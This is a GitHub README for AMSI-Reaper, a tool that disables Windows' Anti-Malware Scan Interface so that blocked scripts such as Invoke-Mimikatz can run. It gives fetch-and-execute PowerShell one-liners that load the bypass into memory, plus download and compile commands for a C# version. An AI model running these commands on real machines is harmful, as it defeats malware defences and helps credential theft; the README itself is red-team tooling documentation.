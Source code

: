 # AMSI-Reaper
![reaper](https://github.com/h0ru/AMSI-Reaper/assets/117091833/24861e69-df06-477d-8844-a0d4015ef830)

## Disclaimer ⚠️
- *__The AMSI-Reaper tool is designed mainly for educational and research purposes. The author is not responsible for any misuse, damage, or legal consequences caused by the use of this tool.__*

## Overview📎 
- The [`(AMSI)`](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal) is a built-in security feature in Windows that enables applications and services to integrate with antimalware products. It automatically protects against harmful scripts and code in programs like PowerShell.
- AMSI-Reaper is a tool developed in [`PowerShell`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.ps1) and [`C#`](https://github.com/h0ru/AMSI-Reaper/blob/main/src/AMSI-Reaper.cs) (.NET Framework v4.0) designed to bypass the Anti-Malware Scan Interface  in Windows.
- AMSI-Reaper injects code into the memory of the AMSI components, preventing them from interfering with your scripts.
- Check out more on the [`YouTube Video`](https://youtu.be/rNGQpjJ2rXg?feature=shared)

## Usage 🛠️
### 1️⃣ PowerShell Version
- __Download__
```powershell
iex (iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1)
```
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.ps1')
```
### 2️⃣ C# Version
- __Download__
```powershell
wget https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
```powershell
iwr https://raw.githubusercontent.com/h0ru/AMSI-Reaper/main/src/AMSI-Reaper.cs -O AMSI-Reaper.cs
```
- __Compile__
```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe AMSI-Reaper.cs
```
## Images 🪛
### ✔ Invoke-Mimikatz is detected and blocked by AMSI.
![image1](https://github.com/h0ru/AMSI-Reaper/assets/117091833/6dba8127-9fec-41ec-ba8d-f70d01678dea)
### ✔ With AMSI-Reaper in PowerShell, we can request and use it from the command line in real-time, all in memory.
![image2](https://github.com/h0ru/AMSI-Reaper/assets/117091833/dbcf74d0-a3c3-4e64-a024-3b2bea604f37)
### ✔ Alternatively, you can also use AMSI-Reaper in C# with native Windows features by compiling it with CSC.
![image3](https://github.com/h0ru/AMSI-Reaper/assets/117091833/8906a6ab-d2d8-4ace-906c-2e0869040aa7)
